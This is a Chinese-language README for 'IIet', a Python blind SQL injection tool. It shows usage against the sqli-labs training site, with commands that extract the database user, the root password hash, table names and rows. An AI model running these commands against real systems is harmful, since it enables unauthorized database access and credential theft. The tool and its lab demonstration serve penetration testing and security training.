 # IIet(Injection-information-extraction-tool)
盲注信息提取工具

## 0x01摘要

这是一个通过整数型注入获取数据库信息的脚本(支持盲注)，支持get/post请求方式，可以携带cookie/身份信息，适用于url/data/cookie注入，它可以获取user()，database()，root密码的hash值，以及当前数据库中的表信息，可以bypass魔术引号的过滤(addslashes)。

## 0x02参数

![image-20240909153203921](images/image-20240909153203921.png)

## 0x03使用方式(举例[sqllabs](https://github.com/Audi-1/sqli-labs))

发现了一个整数型注入点

![image-20231228155604606](images/image-20231228155604606.png)

![image-20231228155614119](images/image-20231228155614119.png)

![image-20231228155627032](images/image-20231228155627032.png)

收集信息：

漏洞URL为http://192.168.128.130/Less-2
请求方式是`get`，注入点位置在`url`中，参数名为`id`，然后找返回包的不同点，我在这里举例为`id=2`以及`id=1`的返回包信息，相对于`id=2`的返回包，`id=1`的返回包回显了`Dumb`这个字符串。

依据脚本提示输入参数就可以获取数据库信息了

执行结果如下

```sql
select user();
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m user -t numeric
```

请求`url`：`http://sqllabs.com/Less-2 `，注入点在`url`中，注入点参数为`id`，`id`值为2，特征字符串为`Dumb`(相比于`id=2`，`id=1`的返回包回显了`Dumb`字符串数据)，获取`user`数据，`http://sqllabs.com/Less-2`源码中存在`numeric数据`，通过`-t`测试请求

![image-20240909155747067](images/image-20240909155747067.png)

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m user -t numeric -U ming -P 127.0.0.1:8080 -H "token=2&jwt=9" -C phpsession=1;username=admin 
```

自定义`User-Agent`为`ming`，添加代理参数，请求数据代理流转到`127.0.0.1:8080`，添加请求头`token:2`以及`jwt:9`，添加`Cookie`，`phpsession=1`以及`username=admin`

![image-20240909160950290](images/image-20240909160950290.png)

```sql
select authentication_string from mysql.user where user='root';
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m password -t numeric
```

提取`root`用户的`密码`

![image-20240909161217782](images/image-20240909161217782.png)

```sql
select database();
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m database -t numeric
```

![image-20240909161305749](images/image-20240909161305749.png)

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = database()
```

```
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m table -t numeric
```

![image-20240909161423645](images/image-20240909161423645.png)

```sql
select column_name FROM information_schema.columns WHERE table_name = (select table_name FROM information_schema.tables WHERE table_schema = database() limit 0,1)
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -S 1 -m column -t numeric
```

`-S 1`代表当前数据库第一个表`emails`  `-m column`获取列

![image-20240909161831149](images/image-20240909161831149.png)

```sql
select id,email_id from emails
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m data -T emails -l "id email_id" -t numeric
```

![image-20240909162400799](images/image-20240909162400799.png)

## 更新日志

### 版本更新(2024/10/8)

修复数据库表中文字符乱码的问题

![image-20240911162455940](images/image-20240911162455940.png)

### 版本更新(2024/9/10)

使用二分法提取数据，减少访问次数，修复bug(表中的数据行数)

![image-20240910031204946](images/image-20240910031204946.png)

![image-20240910031141835](images/image-20240910031141835.png)

### 版本更新(2024/9/9)

`argparse`传参，增添代理功能，自定义`Headers`，自定义`User-Agent`

## 免责声明

本工具仅用于合法的授权安全测试和教育目的。未经授权访问或测试未授权的系统是非法的，会产生法律责任。 

本工具的作者概不负责任何非法或未经授权使用此工具所产生的后果。使用者承担使用本工具的全部责任。 
